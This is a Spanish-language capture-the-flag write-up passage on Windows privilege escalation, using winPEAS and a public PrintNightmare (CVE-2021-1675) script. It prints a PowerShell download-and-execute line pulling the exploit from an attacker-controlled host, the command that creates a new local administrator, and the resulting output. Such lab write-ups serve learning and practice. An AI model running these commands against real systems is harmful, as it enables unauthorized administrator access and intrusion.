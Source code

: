 ### Escalada Privilegios

* * *

Tras un reconocimiento manual de los puntos básicos no encontramos nada de utilidad. Seguimos con la herramienta `winPEAS` para un reconocimiento más detallado. Encontramos un servicio activo `spoolsv`. Buscamos en Google por vulnerabilidades asociadas y encontramos el repositorio de GitHub de [calebstewart](https://github.com/calebstewart/CVE-2021-1675). Nos clonamos el repositorio, accedemos a la carpeta creada y compartimos mediante un servidor HTTP con python. Nos lo traemos a la máquina víctima de la siguiente forma

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.34/CVE-2021-1675.ps1')
```

Lo siguiente es crear un nuevo usuario según nos indican en el repositorio descargado

```bash
*Evil-WinRM* PS C:\Temp\privesc> Invoke-Nightmare -DriverName "Xerox" -NewUser "yorch" -NewPassword "yorch123$!"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user yorch as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```
Confirmamos que el usuario creado está dentro del grupo `Administrators`

```bash
*Evil-WinRM* PS C:\Temp\privesc> net user yorch
User name                    yorch
Full Name                    yorch
Comment
User s comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/12/2022 10:17:11 AM
Password expires             Never
Password changeable          12/12/2022 10:17:11 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```

